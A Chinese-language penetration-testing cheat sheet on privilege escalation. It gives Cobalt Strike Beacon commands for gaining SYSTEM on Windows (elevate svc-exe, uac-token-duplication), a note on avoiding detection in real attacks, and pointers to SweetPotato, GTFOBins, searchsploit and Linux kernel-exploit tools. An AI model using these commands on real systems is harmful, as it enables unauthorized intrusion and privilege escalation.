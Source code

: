 Beacon默认回连时间（心跳时间）为60秒，为了更快的渗透修改成0秒，交互模式。

```bash
sleep 0	
#心跳时间设快了容易被发现，实际攻击不建议设太快

shell whoami
```

**如果你有一个Administrator权限的Beacon，用以下命令提升到SYSTEM权限：**

这个需要创建服务

```bash
elevate svc-exe test1（你的监听器）
```

**如果你是普通`本地`用户权限，用以下命令提升到高权限**

注意：如果是`域`用户会弹出认证窗口，不能提权

```bash
elevate uac-token-duplication test1
```

然后可以用上边的`svc-exe`提权到SYSTEM

## C#版的烂土豆（来自QAX零队）

项目地址：https://github.com/uknowsec/SweetPotato

能在webshell下执行命令的版本 

# Linux提权

**GTFOBins**（sudo滥用和SUID提权命令查询）https://gtfobins.github.io/

## 密码复用

 如数据库、后台 web 密码，可能就是 root 密码

## 内核溢出漏洞提权

**信息收集**

```
uname -a#查看系统版本内核信息
```

**使用 `searchsploit` 查找相关内核漏洞**

下载地址：https://github.com/offensive-security/exploitdb

```
searchsploit linux 3.10 CentOS Linux 7
```

**或使用 `linux-exploit-suggester-2.pl` 在目标机器上执行**
